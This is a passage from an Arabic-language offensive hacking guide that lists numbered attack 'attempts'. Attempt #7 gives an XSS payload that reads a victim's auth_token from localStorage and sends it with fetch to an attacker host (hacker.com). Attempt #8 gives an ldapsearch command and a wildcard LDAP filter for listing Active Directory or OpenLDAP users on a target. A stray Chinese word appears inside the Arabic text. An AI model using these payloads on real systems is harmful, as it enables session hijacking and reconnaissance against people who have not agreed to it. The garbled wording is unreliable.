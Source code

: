 ### 📌 النتيجة:
- الوصول إلى بيانات حساسة غير متوقعة.

---

## 🧪 المحاولة #7: فك تشفير البيانات من LocalStorage / SessionStorage

### ⚙️ الفكرة:
إذا كنت تقدر على تنفيذ XSS، يمكنك قراءة بيانات الجلسة من متصفح الضحية.

### ✔️ كيف تكتشف:
استخدام DevTools:
```javascript
localStorage.getItem("auth_token");
sessionStorage.getItem("sessionid");
```

### 💥 الاستغلال:
- كتابة XSS Payload:
```html
<script>
  fetch('https://hacker.com/leak?token=' + localStorage.getItem('auth_token'));
</script>
```

### 📌 النتيجة:
- الحصول على Session Token كامل يمكن استخدامه ل登入 النظام.

---

## 🧪 المحاولة #8: استخدام LDAP Enumeration لاكتشاف المستخدمين

### ⚙️ الفكرة:
استغلال ثغرات في أنظمة Microsoft Active Directory أو OpenLDAP لاكتشاف المستخدمين والصلاحيات.

### ✔️ كيف تكتشف:
```bash
ldapsearch -x -h target.com -b "dc=example,dc=com"
```

### 💥 الاستغلال:
- استخدام payloads مثل:
```ldap
(&(objectClass=user)(sAMAccountName=*))
```

### 📌 النتيجة:
- الحصول على قائمة بأسماء المستخدمين والتفاصيل المتعلقة بهم.

---